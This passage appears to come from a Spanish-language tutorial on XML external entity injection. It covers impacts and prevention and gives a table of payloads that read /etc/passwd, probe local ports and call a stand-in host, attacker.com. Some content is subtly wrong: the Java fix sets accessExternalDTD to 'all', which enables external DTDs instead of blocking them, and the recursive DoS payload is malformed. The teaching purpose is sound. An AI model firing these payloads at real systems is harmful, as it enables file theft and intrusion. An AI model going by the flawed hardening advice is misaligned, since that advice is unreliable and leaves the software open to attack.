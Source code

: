 En este caso, el atacante inyecta una entidad externa que apunta a un archivo del sistema local (`/etc/passwd`), y el servidor incluye ese archivo en la respuesta XML.

### **Impactos de XEE:**

1. **Exfiltración de archivos locales**: Los atacantes pueden obtener acceso a archivos locales del servidor que contienen información sensible, como contraseñas, configuraciones o información de base de datos.
2. **Denegación de servicio (DoS)**: Mediante la inyección de entidades recursivas (entidades que hacen referencia a sí mismas), los atacantes pueden crear ataques de denegación de servicio que agotan los recursos del servidor.
3. **Acceso a recursos internos**: Los atacantes pueden hacer que el servidor haga solicitudes a servicios internos en la red (puertos locales) y obtener información sensible, como datos de bases de datos o servicios internos que no están expuestos al público.
4. **Ejecución remota de comandos**: Aunque menos común, si se permiten ciertas configuraciones, un atacante podría realizar solicitudes externas que interactúan con otros servicios internos del servidor.

***

### **Cómo prevenir la vulnerabilidad XEE:**

1. **Desactivar la resolución de entidades externas**: La mayoría de los procesadores XML permiten configurar la desactivación de la resolución de entidades externas.
   * **Java**: `System.setProperty("javax.xml.accessExternalDTD", "all");`
   * **PHP**: `libxml_disable_entity_loader(true);`
2. **Validar y sanitizar las entradas**: Asegurarse de que los documentos XML sean procesados solo si son válidos y si contienen los datos esperados.
3. **Usar bibliotecas XML seguras**: Utilizar bibliotecas que no procesen entidades externas o que permitan configuraciones estrictas en el manejo de entidades.

***

### **Tabla de Payloads y Bypasses para XEE**

Aquí tienes algunos **payloads comunes y bypasses** para explotar vulnerabilidades XEE, junto con explicaciones de cómo funcionan y cómo pueden ser utilizados.

| **Descripción**                                            | **Payload/Bypass**                                                                                                                                         | **Explicación**                                                                                                                   |
| ---------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| **Acceso a archivos locales (ejemplo: `/etc/passwd`)**     | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]> <foo>&xxe;</foo>`                                                                              | Permite al atacante acceder a archivos locales sensibles, como el archivo de contraseñas en sistemas Unix (`/etc/passwd`).        |
| **Acceso a archivos sensibles de configuración**           | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/hostname">]> <foo>&xxe;</foo>`                                                                            | Inyecta una entidad que accede a archivos sensibles del sistema, como el archivo de configuración de nombre de host.              |
| **Denegación de servicio mediante carga recursiva**        | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/hosts">]> <!ENTITY yxxe SYSTEM "xxe"> <foo>&xxe;&yxxe;</foo>`                                             | Utiliza entidades recursivas para realizar un ataque de DoS, al hacer que el procesador XML recursivamente procese las entidades. |
| **Acceso a servicios internos (puertos locales)**          | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://127.0.0.1:8000/malicious">]> <foo>&xxe;</foo>`                                                                 | Permite al atacante hacer solicitudes HTTP a servicios internos, lo que podría revelar información confidencial o vulnerable.     |
| **Redirección a servidor controlado por atacante**         | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/malicious">]> <foo>&xxe;</foo>`                                                                   | Inyecta una entidad que hace una solicitud HTTP a un servidor externo controlado por el atacante.                                 |
| **Inyección de entidades a través de URL (mediante `&`)**  | `http://victim.com/xml?data=%3C%21DOCTYPE%20foo%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Cfoo%3E%26xxe%3B%3C%2Ffoo%3E` | Inyecta una entidad de archivo en una URL, que es procesada al pasar como parámetro a la aplicación vulnerable.                   |
| **Acceso a archivos XML remotos**                          | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/malicious.xml">]> <foo>&xxe;</foo>`                                                               | Permite al atacante incluir un archivo XML remoto, controlando así el contenido procesado por el servidor.                        |
| **Manipulación de salida para obtener datos del servidor** | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://localhost/malicious">]> <foo>&xxe;</foo>`                                                                      | Permite al atacante solicitar información sensible del servidor de forma externa a través de la vulnerabilidad XEE.               |
